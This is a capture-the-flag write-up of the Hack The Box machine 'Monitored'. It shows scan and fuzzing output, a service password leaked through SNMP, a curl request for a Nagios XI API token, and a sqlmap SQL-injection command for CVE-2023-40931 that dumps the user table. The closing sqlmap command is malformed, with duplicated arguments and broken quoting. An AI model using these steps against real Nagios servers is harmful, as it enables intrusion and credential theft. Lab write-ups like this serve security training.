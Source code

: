 ```yaml
---
title: "Monitored"
date: 2024-02-29T11:30:03+00:00
draft: false
tags: ["htb"]
categories:
    - Writeups
description: "Monitored HacktheBox Writeup"
top_img: /images/cyberpunk-red.png

---
```


![](https://miro.medium.com/v2/resize:fit:4800/format:webp/1*ht14f3nLye487pVBC_xxFQ.png)

Today we'll be covering an interesting box called *Monitored* introduced with a medium level difficulty so let's check it out.

### Nmap Scans.

Starting off with some port enumeration we get some interesting ports open.

```bash
PORT     STATE  SERVICE          VERSION
22/tcp   open   ssh              OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
53/tcp   closed domain
80/tcp   open   http             Apache httpd 2.4.56
135/tcp  closed msrpc
389/tcp  open   ldap
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
464/tcp  closed kpasswd5
593/tcp  closed http-rpc-epmap
636/tcp  closed ldapssl
1433/tcp closed ms-sql-s
3268/tcp closed globalcatLDAP
3269/tcp closed globalcatLDAPssl
5667/tcp open   tcpwrapped
Service Info: Host: nagios.monitored.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel


```
## Web Enumeration (port 80)

Intially checking port 80 it redirects to `nagios.monitored.htb` 
![](https://imgur.com/ELNHUOG.png) checking the site out. We are redirected to nagios XI.
![](https://imgur.com/rcKawD1.png) which is a server and networking monitoring software.

## Fuzzing port 80.
Trying login with the default credentials found online didn't provide us with access, hence the next step was to fuzz for some directory that might be hidden.

```bash
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 305ms]
                        [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 306ms]
.php                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 244ms]
.hta.php                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 257ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 243ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 231ms]
.htpasswd.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 238ms]
.htaccess.php           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 247ms]
cgi-bin/.php            [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 324ms]
cgi-bin/                [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 324ms]
index.php               [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 208ms]
index.php               [Status: 200, Size: 3245, Words: 786, Lines: 75, Duration: 254ms]
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 215ms]
nagios                  [Status: 401, Size: 460, Words: 42, Lines: 15, Duration: 227ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 239ms]
```
We see that the `nagios` directory seems interesting but navigating tot the directory doesn't produce anything fruitful, but looking at the link on the site we identify a certian keyword which seems like a directory `nagiosxi`.

## nagiosxi

Fuzzing the directory we get some interesting directories, 

```bash
# directory-list-2.3-small.txt [Status: 200, Size: 26737, Words: 5495, Lines: 468, Duration: 486ms]
help                    [Status: 200, Size: 26749, Words: 5495, Lines: 468, Duration: 267ms]
tools                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 298ms]
mobile                  [Status: 200, Size: 15978, Words: 2562, Lines: 225, Duration: 296ms]
admin                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 279ms]
reports                 [Status: 200, Size: 26755, Words: 5495, Lines: 468, Duration: 296ms]
account                 [Status: 200, Size: 26755, Words: 5495, Lines: 468, Duration: 294ms]
includes                [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 333ms]
backend                 [Status: 200, Size: 108, Words: 4, Lines: 5, Duration: 306ms]
db                      [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 251ms]
api                     [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 210ms]
config                  [Status: 200, Size: 26753, Words: 5495, Lines: 468, Duration: 291ms]
views                   [Status: 200, Size: 26751, Words: 5495, Lines: 468, Duration: 280ms]
sounds                  [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 259ms]
terminal                [Status: 200, Size: 5215, Words: 1247, Lines: 124, Duration: 275ms]
```
Checking out `terminal` directory, there's a shell in box gui which after trying out soem authentication bypasses it didn't work.
Later on went on to fuzz the `api` endpoint. 

## API 

Fuzzing the API endpoints gives us 2 endpoints the `v1` and `includes`. v1 when fuzzing api endpoints is an indicator of version controlled endpoints. checking out the v1 endpoint we get a lot of results.

**Note**: 
If we visit /api/v1/xxx we can see that all the “endpoints” were giving us same message with size of 32 so we gave -fs 32 option to filter out mostly false-positive hits.`

```bash

license                 [Status: 200, Size: 34, Words: 3, Lines: 2, Duration: 1163ms]
%20                     [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 350ms]
video games             [Status: 403, Size: 286, Words: 20, Lines: 10, Duration: 288ms]
authenticate            [Status: 200, Size: 53, Words: 7, Lines: 2, Duration: 2336ms]
```

We get an interesting endpoint called authenticate but trying to access it we find that, we can only use `POST` to authenticate and since we don't have any credentials to authenticate with decided to go back to the nmap results and enumerate more.

## UDP
```bash
PORT      STATE         SERVICE
7/udp     open|filtered echo
53/udp    open|filtered domain
68/udp    open|filtered dhcpc
123/udp   open          ntp
161/udp   open          snmp
162/udp   open|filtered snmptrap
16838/udp open|filtered unknown
18617/udp open|filtered unknown
21131/udp open|filtered unknown
21698/udp open|filtered unknown
28547/udp open|filtered unknown
49181/udp open|filtered unknown
```

Enumerating UDP ports, we find that snmp is open, enumerating snmp using [braa](https://github.com/mteg/braa) a mass snmp scanner. We get interesting results.
```bash
iso.3.6.1.2.1.25.4.2.1.5.505 = STRING: "--config /etc/laurel/config.toml"
iso.3.6.1.2.1.25.4.2.1.5.549 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.550 = STRING: "--system --address=systemd: --no fork --nopidfile --systemd-activation --syslog-only"
iso.3.6.1.2.1.25.4.2.1.5.553 = STRING: "-n -iNONE"
iso.3.6.1.2.1.25.4.2.1.5.556 = STRING: "-u -s -O /run/wpa_supplicant"
iso.3.6.1.2.1.25.4.2.1.5.568 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.583 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
iso.3.6.1.2.1.25.4.2.1.5.642 = STRING: "-4 -v -i -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0"
iso.3.6.1.2.1.25.4.2.1.5.762 = STRING: "-f /usr/local/nagios/etc/pnp/npcd.cfg"
iso.3.6.1.2.1.25.4.2.1.5.769 = STRING: "-LOw -f -p /run/snmptrapd.pid"
iso.3.6.1.2.1.25.4.2.1.5.783 = STRING: "-LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.pid"
iso.3.6.1.2.1.25.4.2.1.5.804 = STRING: "-p /var/run/ntpd.pid -g -u 108:116"
iso.3.6.1.2.1.25.4.2.1.5.806 = STRING: "-o -p -- \\u --noclear tty1 linux"
iso.3.6.1.2.1.25.4.2.1.5.841 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
iso.3.6.1.2.1.25.4.2.1.5.843 = STRING: "-q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 7878 -u shellinabox -g shellinabox --user-css Black on Whit"
iso.3.6.1.2.1.25.4.2.1.5.848 = STRING: "-h ldap:/// ldapi:/// -g openldap -u openldap -F /etc/ldap/slapd.d"
iso.3.6.1.2.1.25.4.2.1.5.860 = STRING: "-k start"
iso.3.6.1.2.1.25.4.2.1.5.870 = STRING: "-D /var/lib/postgresql/13/main -c config_file=/etc/postgresql/13/main/postgresql.conf"
iso.3.6.1.2.1.25.4.2.1.5.942 = STRING: "/usr/sbin/snmptt --daemon"
iso.3.6.1.2.1.25.4.2.1.5.943 = STRING: "/usr/sbin/snmptt --daemon"
iso.3.6.1.2.1.25.4.2.1.5.972 = STRING: "-pidfile /run/xinetd.pid -stayalive -inetd_compat -inetd_ipv6"
iso.3.6.1.2.1.25.4.2.1.5.976 = STRING: "-d /usr/local/nagios/etc/nagios.cfg"
iso.3.6.1.2.1.25.4.2.1.5.977 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
iso.3.6.1.2.1.25.4.2.1.5.978 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
iso.3.6.1.2.1.25.4.2.1.5.979 = STRING: "--worker /usr/local/nagios/var/rw/nagios.qh"
```

we identify there's a user called `svc` and also a passowrd that the user tried to authenticate with.
```bash
iso.3.6.1.2.1.25.4.2.1.5.583 = STRING: "-c sleep 30; sudo -u svc /bin/bash -c /opt/scripts/check_host.sh svc XjH7VCehowpR1xZB "
```

## Initial Foothold.

Now having creds to login and hving prior knowledge that we have a few instances on the `API` and `terminal` endpoints that we had to try out, started out with the terminal endpoint, didn't give us any results, proceeded to the `API` endpoint where we are need to construct a post request so as to authenticate.

![](https://imgur.com/dEBYn5d.png)

An Auth Token Obtain after using curl.

```bash 
curl -X POST -k -L -d 'username=svc&password=XjH7VCehowpR1xZB' https://nagios.monitored.htb/nagiosxi/api/v1/authenticate/```

```bash 
{"username":"svc","user_id":"2","auth_token":"76064ac8a8a9ece7c349404e1f99a45665e9acfc","valid_min":5,"valid_until":"Fri, 23 Feb 2024 22:38:15 -0500"}
```
we get an auth token, going back to the `nagios` directory, we can authenticate and successfully login.

![](https://imgur.com/fHkual8.png)


According with this [CVE](https://www.cve.org/CVERecord?id=CVE-2023-40931) there is a Post-Auth SQLi, so let’s try POST /nagiosxi/admin/banner_message-ajaxhelper.php HTTP/1.1 to get the admin api_key which is in xi_users in this sqlmap command on the way to add new user with administrative privileges

```bash
sqlmap -u "https://nagios.monitored.htb//nagiosxi/admin/banner_message-ajaxhelper.php?action=acknowledge_banner_message&id=3&token=curl -ksX POST https://nagios.monitored.htb/nagiosxi/api/v1/authenticate" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users | awk -F'"' '{print$12}'" --level 5 --risk 3 -p id --batch -D nagiosxi --dump -T xi_users

```


